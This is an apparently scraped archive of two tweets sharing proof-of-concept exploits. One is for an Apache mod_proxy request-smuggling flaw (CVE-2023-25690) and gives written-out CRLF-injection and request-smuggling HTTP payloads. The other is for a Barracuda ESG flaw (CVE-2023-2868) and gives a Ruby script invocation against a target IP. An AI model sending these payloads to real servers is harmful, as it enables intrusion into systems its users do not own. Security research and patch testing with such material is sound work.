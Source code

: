 
# wugeej
**https://twitter.com/wugeej/status/1699232831883628673 _at 2023-09-06, 01:27:31_**
<blockquote>
[PoC] [CVE-2023-25690] Apache HTTP Server mod_proxy vul

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1

https://t.co/st5iVALH8V
</blockquote>

* https://github.com/dhmosfunk/CVE-2023-25690-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>324</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1698986999221453084 _at 2023-09-05, 09:10:40_**
<blockquote>
[PoC] [CVE-2023-2868] Barracuda Email Security Gateway Appliance (ESG) Vulnerability 

ruby poc_cve_2023_2868.rb &lt;TARGET_IP&gt;
&lt;TARGET_EMAIL&gt;is exists in rb code.

https://t.co/WWlotsOQme https://t.co/Q4fE7Rkjgn
</blockquote>

* https://github.com/cfielding-r7/poc-cve-2023-2868/blob/main/poc_cve_2023_2868.rb

<table><tr>
<td><img src="pictures/4ac6877357d7d8a87e4922f21da1f963ba5d2662e6e007023a59405d378f490b.jpg" alt="4ac6877357d7d8a87e4922f21da1f963ba5d2662e6e007023a59405d378f490b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>